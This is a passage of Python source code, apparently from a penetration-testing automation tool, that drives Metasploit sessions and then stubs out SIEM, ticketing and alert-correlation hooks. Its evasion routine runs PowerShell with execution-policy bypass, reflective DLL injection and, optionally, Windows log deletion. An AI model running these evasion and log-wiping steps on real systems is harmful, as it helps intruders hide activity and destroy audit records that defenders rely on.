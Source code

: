 ````python
            logger.info("Using living off the land techniques...")
            lolbas_result = msf_session.run_with_output('shell powershell.exe -ExecutionPolicy Bypass -Command "Get-Process"')
            evasion_results["living_off_the_land"] = len(lolbas_result) > 0

            # Memory-only execution
            logger.info("Implementing memory-only execution...")
            reflective_result = msf_session.run_with_output('run post/windows/manage/reflective_dll_inject')
            evasion_results["memory_only_execution"] = "injected" in reflective_result.lower()

            # Anti-forensics techniques
            if self.config['payload_generation'].get('anti_forensics', False):
                logger.info("Implementing anti-forensics...")
                cleanup_result = msf_session.run_with_output('run post/windows/manage/delete_logs')
                evasion_results["anti_forensics"] = "cleared" in cleanup_result.lower()

        except Exception as e:
            logger.error(f"Advanced evasion techniques failed: {e}")

        return evasion_results

    def security_orchestration(self) -> Dict[str, Any]:
        """Implement security orchestration and automation"""
        logger.info("Executing security orchestration workflows")

        orchestration_results = {
            "siem_integration": False,
            "ticket_creation": False,
            "alert_correlation": False,
            "automated_response": False
        }

        try:
            # SIEM Integration
            if self.config.get('siem_integration'):
                siem_result = self._integrate_with_siem()
                orchestration_results["siem_integration"] = siem_result

            # Automated ticket creation
            if self.config.get('ticketing_integration'):
                ticket_result = self._create_security_tickets()
                orchestration_results["ticket_creation"] = ticket_result

            # Alert correlation
            alert_result = self._correlate_security_alerts()
            orchestration_results["alert_correlation"] = alert_result

            # Automated response
            if self.config.get('automated_response'):
                response_result = self._execute_automated_response()
                orchestration_results["automated_response"] = response_result

        except Exception as e:
            logger.error(f"Security orchestration failed: {e}")

        return orchestration_results

    def _integrate_with_siem(self) -> bool:
        """Integrate findings with SIEM platform"""
        try:
            # Example SIEM integration (Splunk, QRadar, etc.)
            siem_endpoint = self.config.get('siem_endpoint')
````